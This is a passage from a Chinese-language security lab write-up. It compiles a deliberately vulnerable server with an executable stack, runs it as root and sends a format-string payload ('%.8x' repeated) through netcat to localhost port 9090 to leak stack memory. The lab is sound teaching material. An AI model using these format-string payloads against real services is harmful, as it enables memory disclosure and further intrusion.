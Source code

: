 随后编译目标文件，命令如下：

`gcc -o server server.c`

`gcc -z execstack -o format format.c`

![image-20220526102131125](README.assets/image-20220526102131125.png)

开启两个终端，一个以root权限运行server程序，该程序会调用format，创建一个子进程；另一个 向本地9090端口输入格式化字符串，以完成漏洞利用。具体使用的命令如下：

```bash
#终端1
sudo ./server
#终端2
cat msg | nc 127.0.0.1 9090 
```

## （1）打印栈上数据

在终端2执行

```bash
echo ABCD%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x > msg

cat msg | nc 127.0.0.1 9090 
```

观察到成功泄露出内存数据：
